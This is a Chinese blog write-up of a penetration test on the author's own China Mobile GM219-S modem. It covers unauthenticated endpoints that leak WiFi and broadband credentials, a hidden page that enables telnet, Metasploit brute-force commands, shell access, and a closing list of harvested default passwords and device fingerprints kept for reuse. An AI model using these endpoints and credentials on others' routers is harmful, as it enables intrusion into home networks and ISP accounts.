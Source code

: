 ```yaml
---
layout: post
author: Vulkey_Chen
title: "记一次移动光猫（GM219-S）安全测试"
date: 2019-03-12
music-id: 1348044876
permalink: /archives/2019-03-12/1
description: "记一次移动光猫（GM219-S）安全测试"
---
```


# 前言

过个年，WiFi密码忘记了...光猫管理密码也忘记了（这个光猫也不支持物理按钮重置设置），但是手机还连着WiFi，正规操作找回不了密码，那就用咱们测试的思维来试试PWN掉这个路由器。

# 过程

## 未授权获取WiFi连接密码

还好之前没闲着，发现管理的几个未授权访问的接口如下:

获取宽带账号密码: `/GET_USER_WAN_PPP_INFO.json`

获取 WLAN 连接信息: `/GET_WLAN_LINK_INFO.json`

获取 DHCP 信息: `/GET_NET_DHCP_INFO.json`

手机访问 `http://192.168.1.1/GET_WLAN_LINK_INFO.json` ，获取密码：xxx，电脑连接登录

## 信息收集

### 端口收集结果

```shell
Scanning promote.cache-dns.local (192.168.1.1) [1080 ports]
Discovered open port 80/tcp on 192.168.1.1
Discovered open port 8080/tcp on 192.168.1.1
```

### 目录扫描结果

获得的一些目录：

```shell
/login.html
/login.asp
/index.asp
/telnet.asp
/upgrade.asp
...
```

## 突破口

在目录扫描的时候，发现`/telnet.asp` -> 跳转到 `/cgi-bin/telnet.asp` 如下图所示界面：

![open_telnet](https://vulkey.oss-cn-hangzhou.aliyuncs.com/cmcc-pentest/open_telnet.png)

这个功能可以开启光猫的`telnet`服务，先开启，然后再使用Nmap扫描下端口：

```shell
Scanning promote.cache-dns.local (192.168.1.1) [1080 ports]
Discovered open port 8080/tcp on 192.168.1.1
Discovered open port 80/tcp on 192.168.1.1
Discovered open port 8023/tcp on 192.168.1.1
```

发现多了个8023端口，其对应的服务果然是telnet：

```shell
8023/tcp open  telnet
| fingerprint-strings:
|   GenericLines:
|     Star-Net Broadband Router
|     Login:
|     Password:
|   GetRequest:
|     Star-Net Broadband Router
|     Login: GET / HTTP/1.0
|     Password:
|   Help:
|     HELP
|     Star-Net Broadband Router
|     Login: Password:
|   NCP:
|     Star-Net Broadband Router
|     Login: DmdT^@^@^@
|     ^@^@^@^A^@^@^@^@^@
|   NULL:
|     Star-Net Broadband Router
|     Login:
|   RPCCheck:
|     Star-Net Broadband Router
|     Login:
|     ^@^@(r
|   SIPOptions:
|     Star-Net Broadband Router
|     Login: OPTIONS sip:nm SIP/2.0
|     Via: SIP/2.0/TCP nm;branch=foo
|     From: <sip:nm@nm>;tag=root
|     <sip:nm2@nm2>
|     Call-ID: 50000
|     CSeq: 42 OPTIONS
|     Max-Forwards: 70
|     Content-Length: 0
|     Contact: <sip:nm@nm>
|     Accept: application/sdp
|     Password:
|   tn3270:
|     ^@IBM-3279-4-E
|     ^YStar-Net Broadband Router
|_    Login:
```

telnet开启，爆破一波走起。（Caimima生成个密码口令）

![caimima](https://vulkey.oss-cn-hangzhou.aliyuncs.com/cmcc-pentest/caimima.png)

试了nmap貌似没啥用，开个msfconsole来爆破：

```shell
use auxiliary/scanner/telnet/telnet_login
set RHOSTS 192.168.1.1 #设置模板
set RPORT 8023 #设置端口
set USER_FILE /root/user.txt #设置用户字典
set PASS_FILE /root/pass.txt #设置密码字典
exploit 192.168.1.1 #启动
```

幸运的是爆破出来了，是组合弱口令：

![telnet_brute](https://vulkey.oss-cn-hangzhou.aliyuncs.com/cmcc-pentest/telnet_brute.png)

## 获取密码

运行`telnet 192.168.1.1 8023`输入账号密码进去，执行`sh`发现可以直接进入shell：

![telnet_shell]()

接下来就是找密码到处瞎翻（没有PWN路由器的经验，很难受），执行 `ls -a -l` 发现有软链接，很多指向了`/tmp`目录：

![ls](https://vulkey.oss-cn-hangzhou.aliyuncs.com/cmcc-pentest/ls.png)

于是进入`/tmp`目录，到处翻腾：

![tmp](https://vulkey.oss-cn-hangzhou.aliyuncs.com/cmcc-pentest/tmp.png)

利用这几个关键词看看是否有文件中包含了：`admin`、`CMCC`(中国移动)、`password`、`user`

e.g. `grep 'admin' ./*`，等了老半天了，发现`/tmp/ctromfile.cfg`文件内有点东西：

![admin](https://vulkey.oss-cn-hangzhou.aliyuncs.com/cmcc-pentest/admin.png)

复制密码登录，怼进去：

![cmccadmin](https://vulkey.oss-cn-hangzhou.aliyuncs.com/cmcc-pentest/cmccadmin.png)

## 信息整合

做完测试并针对测试过程的信息进行整合，最后形成字典以便后面再次遇到～

- 通过读配置文件获取的一系列用户名、密码：`9vvrr、admin、aDm8H%MdA、CMCCAdmin、telnetuser、user`

- 文件、目录路径：
    - `/GET_USER_WAN_PPP_INFO.json`
    - `/GET_WLAN_LINK_INFO.json`
    - `/GET_NET_DHCP_INFO.json`
    - `/telnet.asp`
    - `/index.asp`
    - `/user.html`
    - `/upgrade.asp`
    - `/cgi-bin/`
    - `/content.asp`

- 指纹特征：
    - 标题：`HGU LOGIN`
    - 图片：`/webstyle/images/login-mobile-qrcode-anhui.png -> 23cb4f5e63e0cd47f8788a6ca3558eab`
    - JS：`/webstyle/js/br_login_nc.js`

# 结尾

最后我只是默默的把user用户密码改了一下～